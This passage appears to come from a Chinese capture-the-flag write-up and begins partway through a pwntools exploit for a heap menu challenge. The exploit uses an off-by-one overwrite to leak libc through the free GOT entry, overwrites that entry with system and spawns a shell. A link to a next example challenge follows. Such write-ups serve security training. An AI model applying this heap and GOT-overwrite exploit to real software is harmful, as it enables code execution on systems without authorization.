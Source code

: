    ```python
       sla(b'Your choice :','1')
       sla(':',str(size))
       sla(':',content)
   
   def edit(idx, content):
       sla(':','2')
       sla('Index :',str(idx))
       # sla(':',str(len(content)))
       sa(b':',content)
   
   def printf(index):
       p.sendlineafter(b'Your choice :',b'3')
       p.sendlineafter(b'Index :',str(index).encode())
   
   def free(idx):
       sla(':','4')
       sla(':',str(idx))
   
   
   add(24,b'a')    #0
   add(24,b'b')    #1
   edit(0,B'/bin/sh\x00'+ b"\x00"*16+b'\x41')
   free(1)
   add(0x30,b"A"*8 + p64(0)*2+p64(0x21)+p64(0x30)+p64(elf.got["free"]))  #2
   
   printf(1)
   p.recvuntil(b"Content : ")
   addr = u64(p.recv(6).ljust(8,b'\x00'))
   print(hex(addr))
   
   libc_base = addr - 0x844f0
   sys_addr = libc_base + 0x45390
   sh_addr = libc_base + 0x18cd17
   log.success("libc_addr==>"+hex(libc_base))
   log.success("system_addr==>"+hex(sys_addr))
   log.success("bin_sh_addr==>"+hex(sh_addr))
   
   edit(1,p64(sys_addr))
   free(0)
   
   p.interactive()
   
   
   ```

   ![image-20240709162728904](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407091627967.png)

## 2.  例题：[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#asis2016_b00ks)
